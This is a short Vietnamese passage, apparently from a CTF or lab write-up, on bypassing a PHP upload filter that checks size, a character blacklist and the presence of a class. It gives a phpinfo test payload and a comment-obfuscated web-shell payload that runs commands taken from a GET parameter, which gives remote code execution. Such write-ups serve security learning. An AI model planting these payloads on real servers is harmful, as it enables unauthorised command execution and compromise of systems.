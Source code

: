Trong đó nội dung file phải tuân thủ:
- bé hơn 64 bytes
- ko chứa các ký tự trong blacklist 
- phải chứa 1 class 

Nhưng đây sẽ ko chặn được từ việc upload 1 payload như sau: `<?php phpinfo() class A {}`

Sau đó mình tiến hành upload lên. 

![image](https://hackmd.io/_uploads/SkvzOg6hgg.png)

Và giờ mình thử load lại trang nếu nó thành công thì nó sẽ load ra trang phpinfo(). 

![image](https://hackmd.io/_uploads/rJIrul62lg.png)

Như vậy nếu mình upload payload bypass thì có thể RCE: `<?php system/**/("$_GET[a]"); class A {}`

![image](https://hackmd.io/_uploads/Bk8xtl62le.png)




